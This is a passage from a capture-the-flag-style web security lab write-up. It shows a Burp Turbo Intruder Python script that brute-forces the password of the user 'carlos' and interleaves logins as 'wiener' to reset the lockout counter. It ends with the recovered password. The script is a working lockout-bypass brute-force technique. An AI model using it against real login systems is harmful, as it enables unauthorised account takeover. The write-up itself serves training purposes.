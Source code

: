 We've got the password = `mom`. (yes password changes everytime the lab restarts ;)).

## Solution #3 - Brute-force using Burp Turbo Intruder
Simple Burp's Intruder does not have any scripting possiblilties, but Burp's Turbo Intruder does. After installing and enabling it, we just need to select our POST request and choose Turbo Intruder through right mouse click and going into Extensions.

This is how i've set it up:

![picture 62](/assets/images/4de9f48c1e3af5f1cef9905a2238155d1b94cb4cf946836032af39cc35d7e4ab.png)  

Script:
```py
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )
    i = 0
    for word in open('/Users/lukaosojnik/Downloads/pw'):
        i = i + 1
        if i < 2:
            # do one free run
            engine.queue(target.req, ["carlos", word.rstrip()])
        elif i == 2:
            # do one extra run and reset with valid credentials
            engine.queue(target.req, ["carlos", word.rstrip()])
            engine.queue(target.req, ["wiener", "peter"])
            i = 0
        else:
            break
```